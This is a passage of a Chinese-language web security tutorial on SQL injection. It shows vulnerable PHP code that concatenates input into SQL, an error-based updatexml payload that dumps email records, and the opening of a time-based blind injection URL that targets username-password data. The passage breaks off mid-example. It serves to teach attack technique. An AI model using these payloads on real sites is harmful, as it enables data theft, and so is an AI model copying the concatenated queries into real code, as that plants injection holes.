 **2.5.2、报错注入**<br />这里查询users表出问题，改为查询**emails**表来演示<br />设有一个登陆页面后台SQL语句为：
```
$row1 = $row['username'];  	
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
```

当我们输入：
```
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(id,email_id) from security.emails),0x7e),1) #&submit=Submit
```

实际执行的语句为：
```
UPDATE users SET password = '' or updatexml(1,concat(0x7e,(select group_concat(id,email_id) from security.emails),0x7e),1)
```

**分析：**`password = ''`为假，然后执行后面的语，所以页面会通过updatexml函数报错回显出security数据库里面的emails数据表的id和email_id字段。
![image.png](../../_img/02-Web安全/01-基础知识/1664335538133-119ac525-4e4e-4542-a30e-a390cde1d308.png)

**2.5.3、时间盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"`

当我们输入
```
http://xmtxsec.top/test.php/?id=1' and if(substr((select group_concat(concat_ws('-',username,password)) from security.users limit 0,1),1,1)='d',1,sleep(1))--+
```
